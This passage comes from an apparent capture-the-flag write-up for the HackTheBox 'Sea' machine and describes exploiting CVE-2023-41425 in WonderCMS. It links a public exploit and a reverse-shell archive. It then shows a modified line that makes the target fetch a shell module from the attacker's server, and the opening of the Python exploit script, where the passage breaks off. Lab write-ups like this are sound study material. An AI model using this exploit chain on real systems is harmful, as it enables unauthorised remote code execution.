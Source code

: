 Now we know that WonderCMS bike theme 3.2.0 is running on the system.

## Exploitation
### CVE-2023-41425

Looking for known vulnerabilities regarding WonderCMS bike theme 3.2.0, **CVE-2023-41425** seems to be helpful:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/sea/image-10.png)

Following [this github tutorial](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413), let's try to get a reverse shell:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/sea/image-11.png)

Before executing the attack, don't forget to download the reverse shell from [here](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip).


Let's slightly modify the exploit code so that it will download the reverse shell from our python web server as such:

```python
var urlRev = "http://sea.htb/wondercms/?installModule=http://10.10.14.63:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
```

Below is the full code after modification:

```python
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
```